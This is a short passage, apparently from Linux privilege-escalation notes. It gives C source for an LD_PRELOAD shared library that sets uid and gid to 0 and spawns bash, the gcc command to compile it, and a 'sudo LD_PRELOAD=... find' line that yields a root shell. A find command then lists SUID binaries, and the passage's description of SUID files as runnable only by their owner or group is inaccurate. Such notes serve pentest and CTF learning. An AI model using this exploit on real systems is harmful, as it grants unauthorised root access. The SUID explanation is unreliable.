 #include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```
and then compile it as shared library `gcc -fPIC -shared -o shell.so shell.c -nostartfiles`.
After that we just need to run the program by specifying the LD_PRELOAD `sudo LD_PRELOAD=/home/user/ldpreload/shell.so find` and this will spawn an root shell.

Files that can be executed only by the file owner or the group owner, this is indicated by files/directory with `s` in ls -l. `find / -type f -perm -04000 -ls 2>/dev/null`